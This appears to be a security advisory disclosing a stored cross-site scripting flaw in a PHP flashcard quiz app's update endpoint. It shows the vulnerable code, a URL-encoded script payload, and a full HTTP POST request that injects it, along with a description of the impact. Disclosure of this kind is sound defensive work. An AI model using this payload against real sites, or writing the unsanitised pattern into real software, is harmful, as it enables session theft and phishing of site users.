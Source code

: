 ## Vulnerability Details

**Credits**: 
> Reigz Macolor (https://github.com/reigz/)<br/>

**Tested On**:
> [Flashcard Quiz App Using PHP and MySQL 1.0](https://www.sourcecodester.com/php/17160/flashcard-quiz-app-using-php-and-mysql-source-code.html) <br/>

**Affected Version**:
> Flashcard Quiz App Using PHP and MySQL 1.0

**Affected Site Page**: 
> /flashcard-quiz/endpoint/update-flashcard.php<br/>

**Affected Code**: 
> </update-flashcard.php> <br/>

There is not input sanitization present when updating quizes, making the web application vulnerable to XSS.

```php
<?php
include("../conn/conn.php");

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_POST['question'], $_POST['answer'])) {
        $cardID = $_POST['tbl_card_id'];
        $question = $_POST['question'];
        $answer = $_POST['answer'];

        try {
            $stmt = $conn->prepare("UPDATE tbl_card SET question = :question, answer = :answer WHERE tbl_card_id = :tbl_card_id");
            
            $stmt->bindParam(":tbl_card_id", $cardID, PDO::PARAM_STR);
            $stmt->bindParam(":question", $question, PDO::PARAM_STR);
            $stmt->bindParam(":answer", $answer, PDO::PARAM_STR);

            $stmt->execute();

            header("Location: http://localhost/flashcard-quiz/");

            exit();
        } catch (PDOException $e) {
            echo "Error:" . $e->getMessage();
        }

    } else {
        echo "
            <script>
                alert('Please fill in all fields!');
                window.location.href = 'http://localhost/flashcard-quiz/';
            </script>
        ";
    }
}
?>

```

**Related CWE:**
> [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)

## **Details:**
> Allows XSS by placing untrusted code on the parameters `question` and `answer`.

Payload used is `%3Cscript%3Ealert%28%27reigz+was+here%27%29%3C%2Fscript%3E` for both parameters.

```http 
POST /flashcard-quiz/endpoint/update-flashcard.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 147
Connection: close

tbl_card_id=3&question=%3Cscript%3Ealert%28%27reigz+was+here%27%29%3C%2Fscript%3E&answer=%3Cscript%3Ealert%28%27reigz+was+here%27%29%3C%2Fscript%3E
```

![image](https://github.com/smurf-reigz/security/assets/48426940/ab39c7bb-ef81-4b9f-9e8f-64bf1ac16518)


## **Vulnerability Impact:**
> Once the malicious script is injected, the attacker can perform a variety of malicious activities. The attacker could transfer private information, such as cookies that may include session information, from the victim's machine to the attacker. The attacker could send malicious requests to a web site on behalf of the victim, which could be especially dangerous to the site if the victim has administrator privileges to manage that site. Phishing attacks could be used to emulate trusted web sites and trick the victim into entering a password, allowing the attacker to compromise the victim's account on that web site. Finally, the script could exploit a vulnerability in the web browser itself possibly taking over the victim's machine, sometimes referred to as "drive-by hacking."
